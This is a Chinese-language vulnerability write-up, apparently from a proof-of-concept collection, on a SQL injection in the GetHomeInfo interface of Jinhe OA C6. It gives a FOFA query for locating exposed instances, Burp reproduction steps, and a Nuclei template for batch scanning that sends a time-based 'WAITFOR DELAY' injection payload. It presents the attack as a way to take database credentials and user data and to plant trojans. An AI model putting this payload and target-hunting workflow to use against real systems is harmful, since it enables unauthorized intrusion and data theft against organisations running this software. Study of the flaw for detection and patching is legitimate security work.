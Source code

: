**漏洞简介**

金和网络是专业信息化服务商，为城市监管部门提供了互联网+监管解决方案，为企事业单位提供组织协同OA系统升开发平台，电子政务一体化平台智慧电商平台等服务。金和OA C6 GetHomeInfo接口处存在SQL注入漏洞，攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

**漏洞复现**

**第一步、使用下面fofa语句进行资产收集...确认测试目标**

```
fofa语句app="金和网络-金和OA"
```

**第二步、访问漏洞首页**

**第三步、拼接POC进行访问，拼接POC使用burp进行抓包...发送到Repeater中进行测试**

![图片](%E9%87%91%E5%92%8COA%20C6%20GetHomeInfo%20SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.assets/640.png)

批量扫描

```yaml

id: jinhe-jc6-GetHomeInfo-sqlij
info:
  name: jinhe-jc6-GetHomeInfo-sqlij
  author: kanyue
  severity: high
  description: |
    金和网络是专业信息化服务商，为城市监管部门提供了互联网+监管解决方案，为企事业单位提供组织协同OA系统升开发平台，电子政务一体化平台智慧电商平合等服务。金和OA C6 GetHomeInfo接口处存在SQL注入漏洞，攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。
  metadata:
    fofa-query: app="金和网络-金和OA"
  tags: jinhe,jc6,oa,sqlij

http:
  - raw:
      - |
        GET /c6/jhsoft.mobileapp/AndroidSevices/HomeService.asmx/GetHomeInfo?userID=1'%3b+WAITFOR%20DELAY%20%270:0:5%27-- HTTP/1.1
        Host: {{Hostname}}
        Pragma: no-cache
        Cache-Control: no-cache
        Upgrade-Insecure-Requests: 1
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
        Accept-Encoding: gzip, deflate
        Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
        Connection: close

    matchers:
      - type: dsl
        dsl:
          - 'duration>=5'
```

